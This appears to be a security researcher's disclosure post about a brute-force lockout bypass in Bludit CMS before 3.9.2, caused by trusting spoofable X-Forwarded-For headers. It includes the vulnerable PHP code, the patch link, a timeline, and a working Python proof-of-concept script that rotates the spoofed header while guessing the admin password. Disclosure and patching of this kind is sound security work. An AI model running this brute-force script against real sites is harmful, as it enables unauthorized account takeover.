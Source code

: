```yaml
---
layout: post
title: Bludit Brute Force Mitigation Bypass
date: 2019-10-05
categories:
  - disclosure
  - websec
  - security
tags:
  - disclosure
  - php
  - security
  - websec
image: /assets/images/2019-10-05-bludit-brute-force-mitigation-bypass/68747470733a2f2f61736369696e656d612e6f72672f612f3237323636312e737667.jpg
---
```

Versions prior to 3.9.2 of the Bludit CMS are vulnerable to a bypass of the anti-brute force mechanism that is in place to block users that have attempted to incorrectly login 10 times or more. Within the `bl-kernel/security.class.php` file, there is a function named `getUserIp` which attempts to determine the _true_ IP address of the end user by trusting the `X-Forwarded-For` and `Client-IP` HTTP headers:

```php
public function getUserIp()
{
  if (getenv('HTTP_X_FORWARDED_FOR')) {
    $ip = getenv('HTTP_X_FORWARDED_FOR');
  } elseif (getenv('HTTP_CLIENT_IP')) {
    $ip = getenv('HTTP_CLIENT_IP');
  } else {
    $ip = getenv('REMOTE_ADDR');
  }
  return $ip;
}
```

The reasoning behind the checking of these headers is to determine the IP address of end users who are accessing the website behind a proxy, however, trusting these headers allows an attacker to easily spoof the source address. Additionally, no validation is carried out to ensure they are valid IP addresses, meaning that an attacker can use any arbitrary value and not risk being locked out.

As can be seen in the content of the log file below (found in `bl-content/databases/security.php`), submitting a login request with an `X-Forwarded-For` header value of `FakeIp` was processed successfully, and the failed login attempt was logged against the spoofed string:

```json
{
    "minutesBlocked": 5,
    "numberFailuresAllowed": 10,
    "blackList": {
        "192.168.194.1": {
            "lastFailure": 1570286876,
            "numberFailures": 1
        },
        "10.10.10.10": {
            "lastFailure": 1570286993,
            "numberFailures": 1
        },
        "FakeIp": {
            "lastFailure": 1570287052,
            "numberFailures": 1
        }
    }
}
```

By automating the generation of unique header values, prolonged brute force attacks can be carried out without risk of being blocked after 10 failed attempts, as can be seen in the demonstration video below in which a total of 51 attempts are made prior to recovering the correct password.

Demonstration
-------------
<script id="asciicast-272661" src="https://asciinema.org/a/272661.js" async></script>
<noscript><a href="https://asciinema.org/a/272661" target="\_blank"><img src="https://asciinema.org/a/272661.svg" /></a></noscript>

Versions Affected
-----------------
<= 3.9.2

Solution
--------
Apply the patch found at [https://github.com/bludit/bludit/pull/1090](https://github.com/bludit/bludit/pull/1090)

CVSS v3 Vector
--------------
[AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:N/E:P/RL:W/RC:R](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:N/E:P/RL:W/RC:R&version=3.1)

Disclosure Timeline
-------------------
- **2019-10-05**: Vulnerability found, pull request opened with fix
- **2019-10-05**: CVE requested

Proof of Concept
----------------
```python
#!/usr/bin/env python3
import re
import requests

host = 'http://192.168.194.146/bludit'
login_url = host + '/admin/login'
username = 'admin'
wordlist = []

# Generate 50 incorrect passwords
for i in range(50):
    wordlist.append('Password{i}'.format(i = i))

# Add the correct password to the end of the list
wordlist.append('adminadmin')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break

```
